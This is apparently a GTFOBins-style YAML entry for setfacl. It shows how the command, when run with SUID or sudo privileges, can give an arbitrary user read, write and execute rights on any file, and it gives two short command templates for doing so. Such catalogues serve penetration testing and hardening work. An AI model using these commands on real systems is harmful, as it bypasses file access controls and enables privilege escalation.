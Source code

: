 description: This can be run with elevated privileges to change ownership and then read, write, or execute a file.
functions:
  suid:
    - code: |
        LFILE=file_to_change
        USER=somebody
        ./setfacl -m u:$USER:rwx $LFILE
  sudo:
    - code: |
        LFILE=file_to_change
        USER=somebody
        sudo setfacl -m -u:$USER:rwx $LFILE
---
